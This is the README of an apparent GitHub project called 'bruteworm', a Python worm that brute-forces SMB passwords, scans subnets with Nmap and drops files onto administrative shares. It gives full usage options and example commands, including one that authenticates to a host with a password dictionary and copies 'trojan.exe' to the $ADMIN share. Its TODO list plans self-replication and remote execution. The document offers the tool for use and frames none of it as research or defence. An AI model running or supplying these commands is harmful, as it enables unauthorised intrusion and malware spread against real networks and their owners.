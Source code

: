 # bruteworm
A simple worm that uses brute force and dictionary attacks through the network to infect vulnerable machines.

Inspired from the famous [SMB Worm Tool](http://www.securityweek.com/hackers-used-sophisticated-smb-worm-tool-attack-sony).

Currently limited to making connections with SMB directly over TCP (445) and SMB via NetBIOS API (139), but I may add support for more protocols in the future.

### Dependencies
* Python 2.7
* Nmap 6.4

### Features
* Generates LM/NTLM hash lists from dictionary words or variable length permutations of specified alphabets
* Scans for hosts with SMB running (forwards to Nmap) and performs OS detection upon session negotiation
* Copies files from local host to public or administrative shares when correct password found

### Usage
```bash
usage: bruteworm [-h] [-i INPUT] [-o OUTPUT] [-d DICTIONARY DICTIONARY] [-b]
                 [-c COUNT] [-n MIN] [-x MAX] [-a ALPHABET] [-t TARGET]
                 [-p PORT] [-u USER] [-s SHARE] [-v]
                 {build,scan,infect}

positional arguments:
  {build,scan,infect}   interaction with specified hosts/subnet victims

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        source file path
  -o OUTPUT, --output OUTPUT
                        destination file path
  -d DICTIONARY DICTIONARY, --dictionary DICTIONARY DICTIONARY
                        attack of either type pass|hash + dictionary file path
  -b, --bruteforce      use brute force for password guessing
  -c COUNT, --count COUNT
                        number of hashes to generate
  -n MIN, --min MIN     minimum number characters in password
  -x MAX, --max MAX     maximum number characters in password
  -a ALPHABET, --alphabet ALPHABET
                        alphabet of allowed characters without spaces
  -t TARGET, --target TARGET
                        target hosts/subnet e.g. 192.168.2.10, 192.168.2.0/24
  -p PORT, --port PORT  target port e.g. 139
  -u USER, --user USER  target username to use for authentication
  -s SHARE, --share SHARE
                        target share name to drop malware
  -v, --verbosity
```

### Examples
Generate precomputed hashes from a dictionary of words:
```bash
python bruteworm build -vvv -i /path/to/dictionary -o /save/to/hashes
```
Generate precomputed hashes for all possible passwords of 3-6 digits with lower case characters and digits:
```bash
python bruteworm build -vvv -i -n3 -x6 -o /save/to/hashes -a abcdefghijklmnopqrstuvwxyz0123456789
```
Authenticate as user john at host 192.168.1.135 using a password dictionary and copy trojan.exe to share $ADMIN:
```bash
python bruteworm infect -vvv -t 192.168.1.135 -d pass /path/to/dictionary -i trojan.exe -o trojan.exe -u john -s $ADMIN
```

### TODOs
* Make worm standalone so it can replicate itself more easily - as opposed to only acting as a dropper
* Add support for remotely executing copied files using scheduled tasks or other API
